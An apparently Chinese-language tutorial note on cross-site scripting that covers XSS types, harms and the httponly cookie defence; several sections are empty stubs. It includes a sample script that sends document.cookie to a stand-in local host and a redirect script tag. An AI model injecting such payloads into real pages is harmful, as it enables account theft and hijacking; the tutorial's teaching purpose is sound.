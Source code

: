 ```yaml
---
title: XSS攻击原理及防范
---
```

[web安全之 XSS攻击与防御](https://www.bilibili.com/video/av56520828?from=search&seid=10110424041084593238)
## 基本概念
XSS即跨站脚本攻击(Cross Site Scripting)，为不和CSS(层叠样式表-Cascading Style Sheets)的缩写混淆，将跨站脚本攻击缩写为XSS。

XSS的原理是：**恶意攻击者在页面中插入恶意的`script`代码，当用户浏览该页面时，嵌入页面中的`script`代码就会被执行，从而达到恶意攻击用户的目的**。
::: tip
XSS的重点不在于跨站攻击而**在于脚本攻击**。攻击者可以利用web应用的漏洞或缺陷之处，向页面注入恶意的程序或代码，以达到攻击的目的。
:::
通俗来讲就是：我们的页面在加载并且渲染绘制的过程中，如果加载并执行了意料之外的程序或代码（脚本、样式），就可以认为是受到了XSS攻击。
XSS攻击最主要有如下分类：反射型、存储型、及DOM-based型。反射型和DOM-baseed型可以归类为非持久性XSS攻击。存储型可以归类为持久性XSS攻击。
## XSS的危害
* 通过`document.cookie`盗取`cookie`中的信息；
* 使用`js或css`破坏页面正常的结构与样式；
* 流量劫持（通过访问某段具有`window.location.href`定位到其他页面）；
* **dos攻击**：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
* 利用`iframe、frame、XMLHttpRequest或上述Flash`等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用`iframe`，`frame`进一步的进行`CSRF`攻击。
* 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力。

XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其他用户使用的页面中，从而对用户进行攻击。

XSS常见攻击：
1. 盗取用户账号(窃取网页浏览中的cookie值)；
2. 非法转账；
3. 篡改系统信息；
4. 网站挂马

## 窃取网页浏览中的cookie值
如何用XSS攻击盗取用户账号？

在网页浏览中我们常常涉及到用户登录，登录完毕之后服务端会返回一个cookie值。这个cookie值相当于一个令牌，拿着这张令牌就等同于证明了你是某个用户。
如果你的cookie值被窃取，那么攻击者很可能能够直接利用你的这张令牌不用密码就登录你的账户。如果想要通过script脚本获得当前页面的cookie值，通常会用到document.cookie。
试想下如果像空间说说中能够写入xss攻击语句，那岂不是看了你说说的人的号你都可以登录（不过某些厂商的cookie有其他验证措施如：Http-Only保证同一cookie不能被滥用）
```js
var cookie = document.cookie; // 获取浏览器的cookie值
window.location.herf = 'http://127.0.0.1/index.php?cookie=' + cookie;
```
### httponly
给cookie设置httponly，使得在客户端无法通过js脚本来操作cookie，防止用户账号被盗。
## 劫持流量实现恶意跳转
这个很简单，就是在网页中想办法插入一句像这样的语句：
```html
<script>
    window.location.href="http://www.baidu.com";
</script>
```
那么所访问的网站就会被跳转到百度的首页。
早在2011年新浪就曾爆出过严重的xss漏洞，导致大量用户自动关注某个微博号并自动转发某条微博。具体各位可以自行百度。
## XSS非法转账

## 反射型XSS

## 利用与绕过

## 参考文档
1. [根据白名单过滤HTML(防止 XSS 攻击)](https://github.com/leizongmin/js-xss/blob/master/README.zh.md)
2. [XSS攻击原理分析与防御技术](https://segmentfault.com/a/1190000013315450)
3. [浅谈XSS攻击的那些事（附常用绕过姿势）](https://zhuanlan.zhihu.com/p/26177815)
4. [与《Yii框架》不得不说的故事—安全篇](https://www.imooc.com/learn/467)
4. [Web安全-XSS](https://www.imooc.com/learn/812)
5. [WEB安全 - 认识与防御XSS攻击](https://www.cnblogs.com/HCJJ/p/9468871.html)
6. [web安全之XSS攻击原理及防范](https://www.cnblogs.com/tugenhua0707/p/10909284.html)
7. [Yii框架不得不说的故事—安全篇（3）](https://www.imooc.com/learn/467)
8. [Web安全-XSS](https://www.imooc.com/learn/812)
9. [浅说 XSS 和 CSRF](https://github.com/dwqs/blog/issues/68)